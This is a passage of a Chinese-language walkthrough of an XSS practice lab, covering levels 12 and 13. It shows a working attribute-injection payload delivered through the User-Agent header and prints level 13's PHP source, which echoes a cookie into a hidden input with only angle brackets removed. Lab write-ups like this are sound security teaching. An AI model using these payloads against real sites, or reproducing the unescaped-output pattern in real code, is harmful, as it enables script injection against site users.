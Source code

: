 测试过滤了什么

`<script " 'Oonn>`

也没有显示输入的内容，

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ua"  value="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36" type="hidden">
```

但也有4个隐藏传参,

发现t_ua这个参数就是useragent

![image-20221120191102558](https://img.gyxnb.top/img/image-20221120191102558.png)

`click"type="button" onclick="alert(/xss/)`

## level13

http://192.168.31.193:8080/level13.php?keyword=good%20job!

```php
<?php 
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

测试过滤了什么

`<script " 'Oonn>`

也没有显示输入的内容

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_cook"  value="call me maybe?" type="hidden">
```
